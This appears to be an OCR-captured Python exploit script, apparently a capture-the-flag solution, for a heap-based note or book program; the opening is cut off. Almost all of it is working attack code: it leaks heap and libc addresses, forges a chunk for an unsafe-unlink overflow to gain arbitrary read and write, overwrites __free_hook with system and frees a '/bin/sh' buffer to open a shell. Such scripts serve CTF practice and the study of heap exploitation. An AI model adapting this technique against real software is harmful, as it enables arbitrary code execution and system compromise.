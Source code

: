 ```


def author_name(author):
    cmd(5)
    p.recvuntil(': ')
    p.send(author)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def main():
    # Your exploit script goes here

    # leak heap address
    p.recvuntil('name: ')
    p.sendline('x' * (0x20 - 5) + 'leak:')

    create(0x20, 'tmp a', 0x20, 'b') # 1
    cmd(4)
    p.recvuntil('Author: ')
    p.recvuntil('leak:')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    p.info('heap leak @ 0x%x' % heap_leak)
    heap_base = heap_leak - 0x1080

    create(0x20, 'buf 1', 0x20, 'desc buf') # 2
    create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3
    remove(2)
    remove(3)

    ptr = heap_base + 0x1180
    payload = p64(0) + p64(0x101) + p64(ptr - 0x18) + p64(ptr - 0x10) + '\x00' * 0xe0 + p64(0x100)
    create(0x20, 'name', 0x108, 'overflow') # 4
    create(0x20, 'name', 0x100 - 0x10, 'target') # 5
    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6

    edit(4, payload) # overflow
    remove(5) # unlink

    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')

    def write_to(addr, content, size):
        edit(4, p64(addr) + p64(size + 0x100) + '\n')
        edit(6, content + '\n')

    def read_at(addr):
        edit(4, p64(addr) + '\n')
        cmd(4)
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        content = p.recvline()[:-1]
        p.info(content)
        return content

    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
    p.info('libc leak @ 0x%x' % libc_leak)

    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
    remove(6)

    p.interactive()
```